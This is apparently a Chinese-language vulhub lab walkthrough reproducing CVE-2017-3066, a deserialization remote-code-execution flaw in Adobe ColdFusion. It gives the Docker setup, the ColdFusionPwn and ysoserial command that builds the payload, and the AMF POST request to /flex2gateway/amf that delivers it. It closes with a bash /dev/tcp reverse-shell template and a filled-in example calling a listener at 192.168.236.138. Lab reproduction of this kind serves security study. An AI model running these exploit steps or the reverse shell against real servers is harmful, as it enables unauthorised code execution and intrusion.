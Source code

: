 ### Adobe ColdFusion 反序列化漏洞（CVE-2017-3066）



### 漏洞原理

Adobe ColdFusion是美国Adobe公司的一款动态Web服务器产品，其运行的CFML（ColdFusion Markup Language）是针对Web应用的一种程序设计语言。

Adobe  ColdFusion中存在java反序列化漏洞。攻击者可利用该漏洞在受影响应用程序的上下文中执行任意代码或造成拒绝服务。以下版本受到影响：Adobe ColdFusion (2016 release) Update 3及之前的版本，ColdFusion 11 Update  11及之前的版本，ColdFusion 10 Update 22及之前的版本。

参考链接：

- https://codewhitesec.blogspot.com.au/2018/03/exploiting-adobe-coldfusion.html

## 复现漏洞

### 启动环境

进入路径为

```
cd /root/vulhub/coldfusion/CVE-2017-3066
1
```

搭建及运行漏洞环境：

```
docker-compose build && docker-compose up -d
1
```

此本安装环境需要大概1G+的数据下载，网络不好的起来走动走动吧:)
![1](Adobe ColdFusion反序列化漏洞CVE-2017-3066\1.png)
 环境启动成功后，访问`http://your-ip:8500/CFIDE/administrator/index.cfm`，输入密码`vulhub`，即可成功安装Adobe ColdFusion。
![2](Adobe ColdFusion反序列化漏洞CVE-2017-3066\2.png)

## 漏洞复现

### 生成POC

使用[ColdFusionPwn](https://github.com/codewhitesec/ColdFusionPwn)工具来生成POC。
 [下载ColdFusionPwn](https://github.com/codewhitesec/ColdFusionPwn/releases/download/0.0.1/ColdFusionPwn-0.0.1-SNAPSHOT-all.jar)
 [下载ysoserial](https://jitpack.io/com/github/frohoff/ysoserial/master-SNAPSHOT/ysoserial-master-SNAPSHOT.jar)
 【注意】下载的jar包可能因为时间不同，而更新，包名也就不同。注意将命令中的包名，替换为你下载时候的名字

```
java -cp ColdFusionPwn.jar:ysoserial.jar com.codewhitesec.coldfusionpwn.ColdFusionPwner -e CommonsBeanutils1 'touch /tmp/CVE-2017-3066_is_success' poc.ser
1
```

【再注意】上面的命令在Win10下我没有执行成功，错误提示为`错误: 找不到或无法加载主类 com.codewhitesec.coldfusionpwn.ColdFusionPwner`。在Kali成功生成了?

### 发送POC

生成poc.ser文件后，将POC作为数据包body发送给`http://your-ip:8500/flex2gateway/amf`，Content-Type为`application/x-amf`：

```
POST /flex2gateway/amf HTTP/1.1
Host: your-ip:8500
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-amf
Content-Length: 2853

[...poc...]
1234567891011
```

![3](/Adobe ColdFusion反序列化漏洞CVE-2017-3066/3.png)

### 发送POC内容

由于编码问题，如果直接从Notepad++/Notepad里面复制粘贴为body部分，是不成功的，即使返回的状态码是200
![4](/Adobe ColdFusion反序列化漏洞CVE-2017-3066/4.png)
 正确发送方式为：
 右击选择**Paste From File**，上传**poc.cer**文件
 ![5](/Adobe ColdFusion反序列化漏洞CVE-2017-3066/5.png)

 【感谢豆老师?的纠错，以及科普编码问题】?
 再到`Raw`界面添加HTTP头部，如果成功，并且打算以后还需要用的话，右击选择`Copy to File`保存
![6](\Adobe ColdFusion反序列化漏洞CVE-2017-3066\6.png)

#### 检验POC

##### 进入容器

###### 通过DockerID进入容器

```
docker exec -it 容器ID /bin/bash  
1
```

###### 查看容器ID

```
docker ps
1
```

![7](Adobe ColdFusion反序列化漏洞CVE-2017-3066/7.png)

###### 通过Docker名字进入容器

```
docker-compose exec 容器名字 bash
1
```

比如本次环境中是：

```
docker-compose exec coldfusion bash
1
```

##### 查看/tmp/

```
ls /tmp/
1
```

发现`/tmp/success`已成功创建：
![8](Adobe ColdFusion反序列化漏洞CVE-2017-3066\8.png)
 将POC改成[反弹命令](http://jackson.thuraisamy.me/runtime-exec-payloads.html)，成功拿到shell：
![9](Adobe ColdFusion反序列化漏洞CVE-2017-3066\9.png)

### 反弹Shell

#### 格式

```
bash -i >& /dev/tcp/ip/port 0>&1
1
```

#### 例子

比如监听192.168.236.138的333端口

```
bash -i >& /dev/tcp/192.168.236.138/333 0>&1
```